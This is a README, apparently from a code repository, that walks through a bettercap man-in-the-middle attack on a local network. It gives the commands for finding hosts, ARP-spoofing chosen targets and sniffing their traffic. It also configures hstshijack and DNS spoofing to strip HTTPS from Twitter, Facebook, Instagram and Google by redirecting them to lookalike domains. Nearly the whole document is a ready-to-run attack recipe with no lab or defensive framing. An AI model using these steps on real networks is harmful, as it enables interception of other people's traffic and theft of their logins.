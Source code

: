 # Bettercap ARPSpoofer

## Prerequisutes
1. Make sure you have namp/netdiscover installed (could also use nmap for host scanning).
2. Bettercap should be installed as well.

## Usage
1. Find some hosts to spoof within your LAN.
   1. `bettercap -iface <interface>`
   2. `net.probe on`
   3. `net.show`
   4. Pick a client and exit bettercap.
   5. __Note: Can also use netdiscover or nmap for host scanning.__
2. Create/Edit your spoof caplet (spoof.caplet)
   1. `set arp.spoof.fullplex true`  : Capture both incoming/outgoing traffic. 
   2. `set arp.spoof.targets <target ip/mac>` : Comma-separated list of IPs/MACs to spoof.
   3. `set net.sniff.local true` :  Sniff local (attackbox) traffic as well - needed for bypassing HTTPS.
3. Edit hstshijack config file to bypass specific sites configured with HSTS.
   1. `nano /usr/local/share/bettercap/caplets/hstshijack/hstshijack.cap `
   2. Targets and replacements could look like this… (customize to your liking)
      `
    set hstshijack.targets         twitter.com,*.twitter.com,facebook.com,*.facebook.com,instagram.com,*.instagram.com,google.com,*.google.com, gstatic.com, *.gstatic.com
    set hstshijack.replacements    twiter.com,*.twiter.com,facebook.corn,*.facebook.corn,instagam.com,*.instagam.com,google.corn,*.google.corn,gstatic.corn,*.gstatic.corn
    `
   3. dns.spoof.domains could look like this... (customize to your liking) 
    `
    dns.spoof.domains
    set dns.spoof.domains  twiter.com,*.twiter.com,facebook.corn,*.facebook.corn,instagam.com,*.instagam.com,google.corn,*.google.corn,gstatic.corn,*.gstatic.corn
    `
4. Start bettercap with customized caplet.
   1. `bettercap -iface <interface> -caplet <capletfile>`
   2. Example: `bettercap -iface eth0 -caplet spoof.cap`
5. Enable/Verify hstshijack caplet is enabled.
   1. `hstshijack/hstshijack`
   2. `caplets.show`







